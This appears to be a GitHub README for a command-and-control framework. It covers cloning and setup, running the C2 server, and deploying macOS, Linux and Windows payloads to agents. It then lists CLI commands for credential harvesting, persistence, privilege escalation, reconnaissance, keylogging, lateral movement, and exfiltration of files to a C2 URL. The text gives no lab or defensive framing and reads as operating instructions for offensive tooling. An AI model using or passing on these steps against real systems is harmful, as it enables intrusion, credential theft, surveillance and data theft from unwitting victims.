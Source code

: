 Installation and Setup

    Clone the Repository git clone https://github.com/4lph4-01/share cd your-repo-directory

    Create a Virtual Environment python -m venv venv source venv/bin/activate # On Windows, use venv\Scripts\activate

    Install Dependencies pip install -r requirements.txt

    Prepare Payloads (If necessary) Ensure your payload scripts are in the payloads directory:
        payloads/macos_payload.sh
        payloads/linux_payload.sh
        payloads/windows_payload.ps1

Running the C2 Server

python c2_server.py
CLI Usage

    List Agents python cli.py list-agents

    Deploy Payload python cli.py deploy-payload <agent_type> Replace <agent_type> with macos, linux, or windows.

    Select and Send Commands to an Agent python cli.py select-agent You can specify the agent ID directly or choose from a list of available agents.

    Generate Report python cli.py generate-report

    Send a Specific Command python cli.py send-command <agent_id>

Supported Commands

Credential Harvesting python cli.py send-command <agent_id> cred_harvest

Persistence python cli.py send-command <agent_id> persistence

Privilege Escalation python cli.py send-command <agent_id> priv_escalation

Reconnaissance python cli.py send-command <agent_id> reconnaissance

Data Exfiltration python cli.py send-command <agent_id> exfiltrate <file_path> <c2_url> Replace <file_path> and <c2_url> with the actual file path and C2 URL.

Keylogging python cli.py send-command <agent_id> keylogging

Lateral Movement python cli.py send-command <agent_id> lateral_movement
Modules Directory Structure
Ensure you have a modules directory with the following structure and content: modules/ cred_harvest.py persistence.py priv_escalation.py reconnaissance.py exfiltration.py keylogging.py lateral_movement.py
